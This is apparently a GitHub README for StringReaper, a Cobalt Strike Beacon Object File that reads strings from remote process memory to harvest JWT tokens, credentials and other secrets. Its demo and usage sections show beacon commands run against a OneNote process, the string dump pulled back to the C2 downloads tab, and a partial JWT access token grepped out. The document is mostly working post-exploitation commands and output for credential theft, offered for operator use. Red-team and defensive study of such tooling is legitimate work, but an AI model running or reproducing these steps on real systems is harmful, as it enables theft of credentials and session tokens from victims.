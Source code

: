 # StringReaper 
_Reaping treasures from strings in remote processes memory_
![](./images/stringreaper.png)

CobaltStrike BOF designed to carve strings out of remote process memory. This tool allows operators to carve ASCII and UTF-16 strings from targeted processes, making it effective for retrieving JWT tokens, credentials, and other sensitive data directly from memory. Over the past 3 years i've had great success in using this tool on engagements. Saves time when oping from a C2 where you don't want to have to wait on a full process dump or deal with download size issues.

Extracted strings are saved as ASCII in an output file. It uses [@anthemtotheego](https://x.com/anthemtotheego)'s code to download the output files to the CS `Downloads Tab`. If the target data isn't strings, the alternative `download` mode enables full memory section extraction.

Supports filtering memory regions by type (`private`, `image`, `mapped`, or `all`) and access permissions (`r`, `rw`, `rwx`, or `all`).

Also has some additional features such as:
- `list` mode
  - List the target memory sections details. Useful to make sure you don't accidently commit to downloading a massive amount of memory over the wire.
  - I use this to check before I use the `strings` or `download` modes.
- `peb` mode
  - Displays some of the remote processes PEB. Shows CLI strings, etc.
- `env` mode
  - Display all the environment strings of the remote process in the CS console stdout.

# Demo
_Below is a demo of getting JWT access tokens from the OneNote process `onenoteim.exe`_
- First find the process id for OneNote:
```
[02/07 16:44:28] beacon> ps
[02/07 16:44:29] [*] Process List
 PID   PPID  Name                                   Arch  Session     User
 ---   ----  ----                                   ----  -------     ----
 11576 740               onenoteim.exe              x64   1           SECURE\user
 ...
```
- Add the BOF to CS using the Script Console and `StringReaper.cna` aggressor script
- Use the BOF to get all the strings from read-write heap memory `private rw`:
```
[02/07 16:45:08] beacon> StringReaper 11576 strings private rw
[02/07 16:45:09] [*] started download of memstrings.bin (54784 bytes)
[02/07 16:45:09] [*] download of memstrings.bin is complete
```
- Go to downloads tab and sync the `memdump.bin` or `memstrings.bin` file
![](./images/csdownloadstab.png)

- Then view it locally with `cat`/`vi`/`more`/`less`/`grep`/etc
```bash
0xBoku@kamehameha:~/Desktop/out$ cat memstrings.bin | grep ey
ope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/"><s:Header>
<Header xmlns="http://schemas.microsoft.com/office/roamingservice">
<ClientInfo xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Office.Web.Roaming.SoapObjects"<Client>RS_ImmersiveCache</Client><ClientVersion>16.0.14326.22094</ClientVersion><Protocol>1.0</Protocol></ClientInfo></Header></s:Header><s:Body><a:WriteSettingsRequest
xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Office.Web.Roaming.SoapObjects"xmlns:a="http://schemas.microsoft.com/office/roamingservice">
<a:Identity>eyJ0eXAiOiJKV1QiLCJub25jZSI6IjNtYlJlU2FETWpBM2ZrY1B6cnBVclRBZzM1ZG1qYnFzbHVIbkZMdzdkTkUiLCJhbGciOiJSUzI1NiIsIng1dCI6IllUY2VPNUlKeXlxUjZqekRTNWlBYnBlNDJKdyIsImtpZCI6IllUY2VPNUlKeXlxUjZqekRTNWlBYnBlNDJKdyJ9.eyJhdWQiOiJo..
```


# Usage

```
beacon> help StringReaper
Usage: StringReaper PID mode option1 option2
   ._memdownload  : download memory sections to CS Downloads tab
   |_memstrings   : parse strings from memory sections and download to CS Downloads tab
   |_memlist      : list all allocated memory sections in remote process
   |__[option1]
   |  |_ all
   |  |_ private
   |  |_ image
   |  |_ mapped
   |__[option2]
      |_ all
      |_ r
      |_ rw
      |_ rwx
     peb            : display PEB information
     
beacon> StringReaper 7744 memlist private rw
StringReaper BOF (Bobby Cooke|@0xBoku|github.com/boku7|linkedin.com/in/bobby-cooke/)
[+] host called home, sent: 15627 bytes
[+] received output:
Opened a handle to 7744 (PID)
0x000000EE007FA000 / 8364032          | 0x6000       / 24576    | Private  | PAGE_READWRITE             / 0x4        
0x000000EE00FFA000 / 16752640         | 0x6000       / 24576    | Private  | PAGE_READWRITE             / 0x4        
0x000000EE017FA000 / 25141248         | 0x6000       / 24576    | Private  | PAGE_READWRITE             / 0x4        
0x000000EE01FF9000 / 33525760         | 0x7000       / 28672    | Private  | PAGE_READWRITE             / 0x4        
0x000000EE027FE000 / 41934848         | 0x2000       / 8192     | Private  | PAGE_READWRITE             / 0x4      
...
Total selected memory size: 0x3465000 / 54939648

beacon> StringReaper 9548 memstrings private rw
[+] host called home, sent: 15630 bytes
[*] started download of memdump.bin (18818 bytes)
[*] download of memdump.bin is complete
[+] received output:
Opened a handle to 9548 (PID)
0x00000059B07E7000 / -1333891072      | 0x3000       / 12288    | Private  | PAGE_READWRITE             / 0x4        
0x00000059B0877000 / -1333301248      | 0x9000       / 36864    | Private  | PAGE_READWRITE             / 0x4        
0x0000020D98D70000 / -1730740224      | 0x2000       / 8192     | Private  | PAGE_READWRITE             / 0x4        
0x0000020D98DD0000 / -1730347008      | 0x2000       / 8192     | Private  | PAGE_READWRITE             / 0x4        
0x0000020D98E00000 / -1730150400      | 0x12000      / 73728    | Private  | PAGE_READWRITE             / 0x4        
0x0000020D98E13000 / -1730072576      | 0x15000      / 86016    | Private  | PAGE_READWRITE             / 0x4        
0x0000020D98E29000 / -1729982464      | 0x17000      / 94208    | Private  | PAGE_READWRITE             / 0x4        
...  
Total selected memory size: 0x6E000 / 450560
```
